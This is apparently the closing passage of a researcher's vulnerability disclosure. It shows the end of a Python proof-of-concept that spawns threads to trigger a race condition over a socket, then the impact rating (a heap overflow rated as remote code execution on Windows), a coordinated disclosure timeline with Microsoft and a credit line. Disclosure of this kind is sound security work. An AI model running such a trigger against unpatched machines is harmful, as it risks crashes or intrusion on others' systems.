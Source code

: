 ```python
        print(f"[Thread {thread_id}] An error occurred: {e}")
    finally:
        # 5. Cleanly close the connection.
        sock.close()

if __name__ == "__main__":
    threads = []
    for i in range(WORKERS):
        thread = threading.Thread(target=trigger_race_condition, args=(i,))
        threads.append(thread)
        thread.start()

    # Wait for both threads to complete their execution.
    for thread in threads:
        thread.join()
```

### 4.4 Impact

Microsoft has assigned this vulnerability a severity rating of **Important** with a security impact of **Remote Code Execution**. With sufficient investigation, the heap overflow could be exploited and lead to executing code remotely on a Windows machine.

## 5\. Disclosure Timeline

 * **2025-04-08:** Vulnerability reported to Microsoft.
 * **2025-05-12:** Microsoft confirmed the vulnerability and began working on a patch.
 * **2025-06-11:** Vulnerabilty has been fixed. Release planned for Microsoft's July 2025 Security Update Release.
 * **2025-07-08:** Coordinated public disclosure of the vulnerability.

## 6\. Credit

This vulnerability was discovered and reported by me, Marin Duroyon.
The findings and opinions expressed in this report are my own and were conducted on my personal time, independent of my employer.
